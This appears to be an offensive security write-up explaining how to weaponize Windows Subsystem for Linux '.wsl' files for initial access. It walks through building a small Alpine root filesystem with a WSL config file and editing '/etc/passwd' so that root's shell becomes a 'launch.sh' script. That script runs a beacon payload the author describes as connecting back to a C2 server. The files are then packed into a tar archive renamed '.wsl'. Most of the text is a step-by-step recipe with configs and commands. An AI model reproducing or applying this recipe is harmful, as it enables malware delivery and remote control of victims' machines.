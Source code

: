 # WSL Files

When looking into possible new file formats for Initial Access, one really grabbed my attention. By using the following PowerShell one-liner, you can find file extensions available on the workstation. 
When reviewing the results, you might notice that some extensions do not have a designated program for execution:

```powershell
Get-ChildItem Registry::HKEY_CLASSES_ROOT | Where-Object { $_.Name -match '^.*\\\.' } | ForEach-Object { $_.PSChildName }
```

From the output, the `.wsl` file extension was particularly interesting.

We are already familiar with WSL as the **Windows Subsystem for Linux (WSL)**, which allows developers to run a GNU/Linux environment on Windows. While powerful, WSL is traditionally limited to terminal-based interactions. Users can run Linux on the Windows workstation with some capabilities that are limited to the terminal. Reading the documentation for WSL, I found an interesting paragraph highlighting WSL file extensions.

<img width="890" height="228" alt="image" src="https://github.com/user-attachments/assets/afe8b4ed-fa5b-4dd7-8229-d9ccc711368a" />

## Weaponizing a WSL File

To create a weaponized WSL file, three components are required:

1. **An OS (root filesystem)**
2. **A WSL configuration file**
3. **A payload that connects back to a C2 server**

### File Size Concerns

Initially, I was concerned about the file size. My first demo was around **100MB**, which was excessive since I didn't need full OS capabilities just a way to run a command or payload.

Thanks to a tweet, I discovered **Alpine Linux**, a great choice due to its minimal file size (~8MB).

### The WSL Configuration File

The **WSL configuration file**, which only needs the `[oobe]` tag and a default name to function. This config file must be placed under the `/etc` directory.

Example `wsl-distribution.conf`:

```ini
[oobe]
defaultName = CalcWSL
```

### Crafting the Payload

This part was tricky. While the WSL config file supports a `command` tag, it didn’t reliably execute across distributions (Ubuntu, Debian, Alpine). For example:

- **Debian**: I could simply replace the `.bashrc` file with my commands/payload and it worked.
- **Alpine**: This didn’t work on the first run. To make it reliable, I had to modify the `passwd` file.

By editing the `passwd` file, I ensured that every time the WSL instance launched **as root**, it would execute a script instead of opening a shell.

Modified `/etc/passwd` line:

```
root:x:0:0:root:/root:/root/launch.sh  # <- Path to Script
```

### The `launch.sh` Script

```sh
#!/bin/sh
exec /root/beacon_x64.exe
```

This script executes the beacon payload.

## Compiling the WSL Root Filesystem

Once you have:

- The OS (e.g., Alpine Linux)
- The `wsl-distribution.conf` configuration file
- The payload and launch script

You can compile everything into a WSL-compatible tarball:

```bash
tar --numeric-owner -cf Alpine.tar -C /tmp/alpine/ .
```

This results in a small `.tar` which we simply rename to the `WSL` extension.

## Demo:
https://github.com/user-attachments/assets/e018627d-a896-4839-b891-28d70acfab49


